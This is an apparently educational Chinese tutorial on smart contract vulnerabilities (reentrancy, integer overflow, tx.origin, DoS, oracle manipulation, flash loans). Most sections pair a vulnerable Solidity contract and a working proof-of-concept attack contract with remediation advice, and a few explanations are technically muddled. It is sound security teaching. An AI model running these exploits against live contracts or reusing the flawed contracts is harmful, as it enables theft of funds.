# 智能合约常见漏洞

有人说，Web3就像《三体》中的“黑暗森林”，那么该课程将带你进入“猎人”的门。

**Twitter:** [@brycewai](https://twitter.com/brycewai)  
**Mirror:** [@Bryce.W](https://mirror.xyz/brycew.eth)  
**所有代码和教程开源在Github:** [https://github.com/brycewai/Web3-Security](https://github.com/brycewai/Web3-Security)  

# 重入攻击（Reentrancy）

## 什么是重入攻击

重入攻击是一种常见的智能合约漏洞，它允许攻击者在合约发生交互时重复调用合约中的某个函数。这种攻击可以导致意外的行为，如资金损失或数据泄露。

调用外部合约的主要危险之一是它们可以接管控制流。在重入攻击(Reentrancy)中，恶意合约在函数的第一次调用完成之前回调该调用合约，这可能会导致函数的重新进入逻辑处理，而此过程中如果没有进行状态变量的更新，则会导致重入攻击。

攻击者通常会利用合约中的函数，以便在执行完函数A之前，再次调用函数A。这种情况下，合约并没有在第一次调用函数A时完全执行完毕，攻击者可以利用这个漏洞将攻击代码插入到函数A的执行过程中。如果函数A涉及到资金转移，攻击者可以在函数A尚未完成时再次调用该函数，从而使资金被多次转移。这就是重入攻击的本质。



## 漏洞代码示例

[reentrancy.sol](./reentrancy.sol)

### 漏洞合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Victim {
    mapping(address => uint256) public balanceOf; // 余额mapping

    // 存款，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提款，提取msg.sender的全部余额
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取msg.sender的余额
        require(balance > 0, "Insufficient balance"); // 要求余额大于0，才进行提款操作

        // 调用call函数进行转账，将msg.sender的余额全部转到msg.sender账户里。这里有重入风险。
        (bool success,) = msg.sender.call{value: balance}("");

        require(success, "Failed to send Ether"); // 要求call调用成功，才继续执行
        balanceOf[msg.sender] = 0; // 更新余额
    }

    // 获取合约本身的余额
    function getBalanceOfContract() external view returns (uint256) {
        return address(this).balance;
    }
}
```

重入漏洞大多数发生在转账的业务场景里面，转账分为两种情况：一种是向EOA账户转账，一种是向合约转账，在合约转账的情况下会默认调用接受者的fallback函数。

这里的示例能被重入攻击的原因是有2个前提：

- 使用call.value转账，会发送全部gas，为重入循环转账提供了条件
- 账本的改变在实际转账后

### POC合约

```solidity
contract Attack {
    Victim public victim;

    constructor(Victim _victim) {
        victim = _victim;
    }

    // 回调函数，用于重入攻击Victim合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (victim.getBalanceOfContract() >= 1 ether) {
            victim.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function beginAttack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        victim.deposit{value: 1 ether}();
        victim.withdraw();
    }
}
```

攻击调用栈：



## 漏洞修复建议

1、从以太坊本身gas机制的角度去限制：**使用 transfer() 函数**
在可能的情况下，将ether发送给外部地址时使用solidity内置的transfer()函数，transfer()转账时只发送2300gas，不足以调用另一份合约（即重入发送合约）。

2、从业务逻辑的角度去限制：**检查-生效-交互模式（checks-effects-interactions）**
确保状态变量改变发生在ether被发送（或者任何外部调用）之前，即Solidity官方推荐的“检查-生效-交互”模式。

3、从技术实现的角度去限制：**使用互斥锁**
添加一个在代码执行过程中锁定合约的状态变量，防止重入调用

# 整型溢出漏洞（OverFlow）

## 什么是整型溢出漏洞？

在Solidity中，整型是用于存储数字的数据类型。然而，整型有一个固定的范围，例如uint8类型的范围为0到255。当超出这个范围时，就会发生整型溢出。具体来说，整型溢出是指在执行算术运算时，结果超过了整型的范围，导致最高位被截断，最终结果与预期不符。例如，如果我们将uint8类型的255加1，结果应该是0，但实际上结果是256，这是因为uint8类型不能存储256。

整型溢出可能会导致合约的行为出现不可预测的变化，甚至可能被攻击者利用造成损失。例如，如果我们在智能合约中处理金额和资产等敏感数据时出现整型溢出，则可能导致资产丢失或被盗。因此，在Solidity中，应该谨慎处理整型溢出问题。

## 整型溢出漏洞的原因

整型溢出漏洞的原因通常是由于在执行算术运算时，结果超过了整型的范围，导致最高位被截断，最终结果与预期不符。例如，如果我们将uint8类型的255加1，则相当于将二进制数11111111加1，结果应该是100000000，但uint8类型只能存储8位二进制数，因此最高位被截断，结果为00000000，即0。这种情况下，我们会发现结果与预期不符，可能会导致合约的行为出现不可预测的变化。

### 乘法溢出

如果uint8类型的变量超过了它的最大值（2^8 - 1），最后它的值就会回绕变成0。

代码示例：

```solidity
pragma solidity ^0.4.0;

contract OverFlow{
 //乘法溢出
 uint8 public max = 2**7;
 uint8 public _overflow = max * 2;
}
```

运行结果：



可以看到max*2 = 256，超出了uint8能表示的范围，导致了乘法上溢。

### 加法溢出

代码示例：

```solidity
pragma solidity ^0.4.0;

contract OverFlow{
 //乘法溢出
 uint8 public max = 2**8 - 1;
 uint8 public _overflow = max + 1;
}
```

运行结果：



可以看到max+1 = 256，超出了uint8能表示的范围，导致了加法上溢。

### 减法溢出

代码示例：

```solidity
pragma solidity ^0.4.0;

contract OverFlow{
 //乘法溢出
 uint8 public min = 0;
 uint8 public _overflow = min - 1;
}
```

运行结果：



如果uint8类型的变量达到了它的最小值(0)，如果再减去一个大于0的值便会变成2^8 – 1(uint8类型的最大值)。
可以看到min - 1 = -1，超出了uint8能表示的范围，导致了减法下溢。

## 漏洞代码示例

[overflow.sol](./overflow.sol)

### 漏洞合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

contract TimeLock {
    mapping(address => uint256) public balances;
    mapping(address => uint256) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint256 _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");
        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;
        (bool sent,) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### POC合约

```solidity
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    receive() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        timeLock.increaseLockTime(type(uint256).max + 1 - timeLock.lockTime(address(this)));
        timeLock.withdraw();
    }
}
```

攻击调用栈：



## 漏洞修复方案

以下是一些避免Solidity中整型溢出漏洞的方法：

### 使用安全的算术库

可以使用开源的Solidity算术库，例如SafeMath库，来避免整型溢出问题。SafeMath库提供了一些安全的算术运算函数，例如加法、减法、乘法和除法，这些函数会检查运算结果是否超出整型范围，并在必要时抛出异常，避免整型溢出问题。

### 使用 Solidity 0.8.0 之后的版本

其内置了 Safemath，因此几乎不存在这类问题。

### 慎用 unchecked

因为在 unchecked 修饰的代码块里面是不会对参数进行溢出检查的。

### 使用更大的数据类型

可以使用更大的数据类型来避免整型溢出问题。例如，使用uint256代替uint8可以避免很多整型溢出的问题。但是，使用更大的数据类型还会增加存储和计算的成本，因此需要根据具体情况进行权衡。

### 检查输入参数

对于传入合约的参数，应该进行合理的检查和验证，确保输入参数在合理范围内，避免因为不合法的输入参数导致整型溢出问题。例如，对于一个接收uint8类型参数的函数，应该检查参数是否在0到255之间。

### 谨慎处理边界情况

在处理边界情况时，应该特别小心，确保不会出现整型溢出问题。例如，如果我们需要处理uint8类型的255加1的情况，可以使用SafeMath库中的add函数或者手动检查结果是否超出了uint8类型的范围。

# Tx.origin漏洞

## 什么是Tx.origin漏洞

Solidity中的tx.origin漏洞原理是，当攻击者通过一个代理合约调用另一个合约时（例如，使用**`address.call()`**函数），被调用的合约中使用tx.origin来验证用户身份时，攻击者可以欺骗被调用合约，使其相信攻击者是真正的用户，从而执行攻击者的指令。

具体而言，当攻击者通过代理合约来调用另一个合约时，**`msg.sender`**会被设置为代理合约的地址，但是**`tx.origin`**仍然是原始用户的地址，因此被调用的合约如果只使用**`tx.origin`**来验证用户身份，而不是验证**`msg.sender`**的来源，就会被攻击者欺骗。



## 漏洞代码示例

[tx_origin.sol](./tx_origin.sol)

### 漏洞合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Victim {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint256 _amount) public {
        require(tx.origin == owner, "Not owner");
        _to.transfer(_amount);
    }
}
```

### POC合约

```solidity
contract Attack {
    address payable public hacker;
    Victim victim;

    constructor(Victim _victim) {
        victim = Victim(_victim);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导Victim合约的owner调用，于是Victim合约内的余额就全部转移到黑客地址中
        victim.transfer(hacker, address(victim).balance);
    }
}
```

## 漏洞修复方案

修复tx.origin漏洞的方案可以包括以下几个方面：

### 使用msg.sender替代tx.origin

msg.sender也表示调用者的地址，但只会由当前调用发出的外部地址进行设置，不能被修改，因此可以更安全地替代tx.origin。

### 使用access control和权限控制

访问控制是一种设计模式，旨在限制合约代码的访问权限，并确保只有授权的用户能够调用关键合约功能。合约应使用合适的访问控制框架来管理对特定功能的访问，并采取适当的身份验证措施。

### 使用modifier

Modifier也是一种Solidity中的关键字，它类似于函数，但它可以在函数执行前和执行后执行其他代码，可以用于权限控制和确保智能合约的完整性。

### 严格验证用户输入

对于任何数据输入，都应进行严格验证，以确保它符合预期。例如，对于地址类型的输入，应检查输入是否有效，并确保它实际上属于用户的账户。

# 拒绝服务攻击（DoS）

## 什么是区块链中的拒绝服务攻击

针对智能合约的DOS（Denial of Service）攻击，指攻击者故意利用智能合约存在的漏洞和缺陷，通过发送恶意交易来耗尽智能合约的资源，导致智能合约在一段时间内或永久性的无法正常进行交易或提供其他服务。通过拒绝服务攻击，可以使合约中的ether永远无法提取出来。

## 漏洞代码示例

### 通过(Unexpected) Revert 发动DoS

如果智能合约的状态改变依赖于外部函数执行的结果，又未对执行一直失败的情况做出防护，那么该智能合约就可能遭受DOS攻击。



### 通过区块Gas Limit 发动DoS

以太坊规定了每一个区块所能花费的gas limit，如果超过了，交易便会失败。一次性向所有人转账，很可能会导致达到以太坊区块gas limit的上限。



### 所有者操作

目前很多token合约都有一个owner账户，其拥有开启/暂停交易的权限，如果对owner保管不善，token合约可能被一直冻结交易，导致非主观的拒绝服务攻击。



## 漏洞修复方案

1、考虑外部调用可能一直失败的情况。添加基于时间的操作，防止外部函数调用一直无法满足require判断。

2、合约不应该循环对可以被外部用户认为操纵的数据结构进行批量操作，建议使用取回模式withdraw而不是发送模式。

3、可以设置多个拥有owner权限的地址或者设置暂停交易的期限，超过期限就可以恢复交易。
如：require(msg.sender == owner || now > unlockTime)

# 预言机操纵（Oracle Manipulation）

## 什么是预言机操纵

### 预言机

预言机是现实世界（链下）服务和区块链（链上）协议之间的桥梁。预言机的主要功能包括：

- 从链下收集数据
- 使用消息签名，将数据发送到链上
- 将数据存储在智能合约中，使数据可访问



**链下中心化预言机**：由于需要用新的汇率快速更新预言机，这种的类型的预言机只接受来自链下的新价格。可能会有一些健全性检查，以确保价格不会波动太大。Compound Finance和Synthetix主要对大多数资产使用这种类型的预言机。
**链下去中心化预言机**：这种类型的预言机接受来自多个链下的新价格，并通过数学函数计算这些值得出平均值。在此模型中，多签名钱包通常用于管理授权来源列表。Chainlink将这种类型的预言机用于ETH和其他资产。
**链上中心化预言机**：这种类型的预言机使用链上资源（如DEX）来确定资产的价格。但是，只有中央机构才能触发预言机从链上源读取数据。像链下集中式预言机一样，这种类型的预言机需要快速更新，dYdX使用这种类型的预言机。
**链上去中心化预言机**：这种类型的预言机使用链上资源来确定资产的价格，任何人都可以更新它。可能会有一些健全性检查，以确保价格不会波动太大。

### 预言机使用场景

- **抵押借贷清算**： Maker、Compound 和 Aave 依靠价格预言来决定何时清算用户的贷款。如果用户的抵押品低于某个阈值，则可以清算该帐户
- **衍生品定价**：Synthetix 使用预言机来计算加密资产的价值，包括期权、期货和合成资产
- **保险协议**：Nexus Mutual 等保险协议利用预言机在将索赔报告并发布到区块链之前验证索赔。
- **预测市场**：去中心化预测市场（即 August 和 Gnosis）依赖预言机进行链下事件结算。

### 预言机操纵原因

- **由于错误报价导致预言机操纵**： 错误报价指预言机上传的喂价与真实喂价存在偏差。无论是预言机有意还是无意导致了错误报价，都会给接入预言机的协议带来操纵风险。
- **由于市场覆盖广度不够而导致的预言机操纵**：如果预言机只覆盖少数交易市场，就更有可能被操纵，因为攻击者可以在不影响整体市场价格的情况下操纵这几个交易市场的价格。

## 漏洞代码示例

[oracle.sol](./oracle.sol)

### 漏洞合约

*示例参考： [https://github.com/AmazingAng/WTF-Solidity/blob/main/S15_OracleManipulation/readme.md](https://github.com/AmazingAng/WTF-Solidity/blob/main/S15_OracleManipulation/readme.md)*

```solidity
contract oUSD is ERC20 {
    // 主网合约
    address public constant FACTORY_V2 = 0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f;
    address public constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address public constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;

    IUniswapV2Factory public factory = IUniswapV2Factory(FACTORY_V2);
    IUniswapV2Pair public pair = IUniswapV2Pair(factory.getPair(WETH, BUSD));
    IERC20 public weth = IERC20(WETH);
    IERC20 public busd = IERC20(BUSD);

    constructor() ERC20("Oracle USD", "oUSD") {}

    // 获取ETH price
    function getPrice() public view returns (uint256 price) {
        // pair 交易对中储备
        (uint112 reserve0, uint112 reserve1,) = pair.getReserves();
        // ETH 瞬时价格
        price = reserve0 / reserve1;
    }

    function swap() external payable returns (uint256 amount) {
        // 获取价格
        uint256 price = getPrice();
        // 计算兑换数量
        amount = price * msg.value;
        // 铸造代币
        _mint(msg.sender, amount);
    }
}
```

### EXP代码

```solidity
// pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL, 16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore);
        // 给自己账户 1000000 BUSD
        uint256 busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter);
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this)) / 10e18);
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint256 amountIn, uint256 amountOutMin) public returns (uint256 amountOut) {
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint256[] memory amounts = router.swapExactTokensForTokens(amountIn, amountOutMin, path, alice, block.timestamp);

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```

## 漏洞修复方案

- 不要使用流动性差的池子做价格预言机。
- 不要使用现货/瞬时价格做价格预言机，要加入价格延迟，例如时间加权平均价格（TWAP）。
- 使用去中心化的预言机。
- 使用多个数据源，每次选取最接近价格中位数的几个作为预言机，避免极端情况。
- 仔细阅读第三方价格预言机的使用文档及参数设置。

# 闪电贷攻击

## 什么是闪电贷（Flashloan）

闪电贷是通过智能合约的原子性，来完成零风险贷款的业务，因此闪电贷业务只能由智能合约来实现。简单来说就是在一笔链上交易中完成借款和还款，无需抵押。由于一笔链上交易可以包含多种操作，使得开发者可以在借款和还款间加入其它链上操作。



这里的原子性是指具有原子性的事务。该原子事务是不可分割的，在事务执行完毕之前，不会被任何其他操作所中断。而该事务中的所有操作，要么全部被成功执行，要么全部执行失败，不会出现一部分成功而另一部分失败的情况。
简单来讲，就是在一个区块交易中，同时完成借款和还款操作这两个操作，无需抵押任何资产，只需支付手续费即可。
用户在借到款之后，可以利用借到的资产进行其他操作，比如套利、偿还抵押借款、自清算等操作。
然后在交易结束的时候，用户只要把借到的款项及手续费及时归还就可以，否则该笔交易就会回滚，就像什么也没有发生过一样。

## 闪电贷应用场景

- 利用闪电贷套利，闪电贷可以放大成功套利的利润

  

  1. 通过闪电贷向 Aave 借 100,000 USDC。
  2. 在 Uniswap 上将 100,000 USDC 换成 USDT，收到 100,000 USDT。
  3. 在 Curve 上将 100,000 USDT 换成 101,010 USDC
  4. 偿还初始 100,000 USDC + 0.09% Fees = 100,090 USDC
  5. 利润 101,010 USDC - 100,090 USDC = 920 USDC

- 利用闪电贷进行抵押品转换

  

  假设某投资人现在在Aave用BAT做抵押品借出ETH，如果他看衰BAT未来的价格，他该如何将抵押品从BAT换成USDC来降低价格风险呢？
  1.利用闪电贷借出所欠的ETH并偿还原先借款
  2.将取回的BAT抵押品在DeFi换汇所（如Curve）换成USDC
  3.用USDC作为抵押品重新借出ETH
  4.将借出的ETH拿去还闪电贷的欠款

- 利用闪电贷主动平仓

  

  在流动性矿池的经济模型中，借款合约都是被高于借款价值的抵押品所保护的，如果抵押品下跌而导致其价值低于平台要求的门槛，借款人必须提供更多的抵押品来补仓，或是由智能合约强制平仓，并收取一笔昂贵、具有惩罚性的手续费。与上述的例子相同，我们假设投资人有一个用BAT作为抵押品借出ETH的部位。若今天BAT价值下跌，使得投资人的抵押品价值不足，如果他不想补仓，也没有足够的ETH还款，他可以透过主动平仓来避免强制平仓时被收取高额手续费。其操作方式如下：
  利用闪电贷借出ETH来还款
  将取回的BAT抵押品在DeFi换汇所换成ETH
  将部分ETH拿去偿还闪电贷，所有部位结算完成
  因为抵押品的价值一定会超过借款价值，所以用BAT换的ETH一定足以偿还闪电贷。

## 闪电贷攻击

闪电贷攻击是指利用闪电贷和其他漏洞结合后进行攻击。闪电贷本身的存在是没有漏洞的，但有心之人将其利用，以极低的成本撬动巨量资金，在多个协议间进行价格操纵或套利，就存在风险。

常见攻击：

- 闪电贷 + 重入攻击
- 闪电贷 + 套利攻击
- 闪电贷 + 价格操纵
- 闪电贷 + 业务逻辑漏洞
- 闪电贷 + 预言机操纵
- 闪电贷 + 权限漏洞
- 闪电贷 + 治理攻击
- ……
